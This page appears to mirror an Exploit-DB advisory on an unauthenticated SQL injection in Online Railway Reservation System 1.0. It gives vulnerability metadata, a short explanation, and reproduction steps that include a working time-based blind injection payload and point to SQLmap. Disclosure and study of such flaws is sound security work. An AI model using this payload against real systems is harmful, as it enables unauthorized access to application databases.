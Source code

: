 ```yaml
---
title: "Online Railway Reservation System 1.0 - 'id' SQL Injection (Unauthenticated)"
classes: wide
search: true
categories: 
  - Exploit-DB
tags:
  - Exploit-DB
last_modified_at: 2021-12-30T15:58:26+08:00
toc: true
toc_label: "Contents"
---
```


Information about vulnerability
```bash
- Exploit Title: Online Railway Reservation System 1.0 - 'id' SQL Injection (Unauthenticated)
- Date: 07/01/2022
- Exploit Author: twseptian
- Vendor Homepage: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html
- Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/orrs.zip
- Version: v1.0
- Tested on: Kali Linux 2021.4,PHP 7.4.26
- Exploit-DB: https://www.exploit-db.com/exploits/50646
```

## SQL Injection
SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to it's database. Online Railway Reservation System v1.0 is vulnerable to SQL injection via the 'id' parameter on the Reservation Form.

## Attack Vector
An attacker can compromise the database of the application using some automated(or manual) tools like SQLmap.

## Steps of reproduce
- Step-1: Navigate to 'Schedule' > go to 'Book' or 'Revervation Form' page using the following URL: `http://localhost/orrs/?page=reserve&sid=1`

- Step-2: Put the SQL Injection payloads in 'id' field. In this we used time-based blind payload: `/orrs/?page=reserve&sid=1') AND (SELECT 6842 FROM (SELECT(SLEEP(5)))UsWr) AND ('WBCm'='WBCm`

- Step-3: Now, the Server target accepted our payload and the response got delayed by 5 seconds.